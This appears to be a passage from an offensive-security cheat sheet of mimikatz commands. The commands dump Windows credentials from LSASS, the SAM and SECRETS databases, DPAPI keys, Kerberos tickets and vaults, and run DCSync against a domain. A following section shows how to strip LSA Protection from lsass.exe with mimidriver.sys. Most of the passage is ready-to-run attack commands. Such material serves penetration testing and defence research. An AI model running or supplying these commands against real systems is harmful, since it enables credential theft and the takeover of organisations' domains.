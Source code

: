 ```text
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:$Domain_FQDN /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt $KirbiFile_Path

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

What if mimikatz fails to dump credentials because of LSA Protection controls ? Two workarounds:

### LSA as a Protected Process

```text
#Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

#Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
#Now lets import the mimidriver.sys to the system
mimikatz # !+

#Now lets remove the protection flags from lsass.exe process
mimikatz # !processprotect /process:lsass.exe /remove

#Finally run the logonpasswords function to dump lsass
mimikatz # sekurlsa::logonpasswords
```
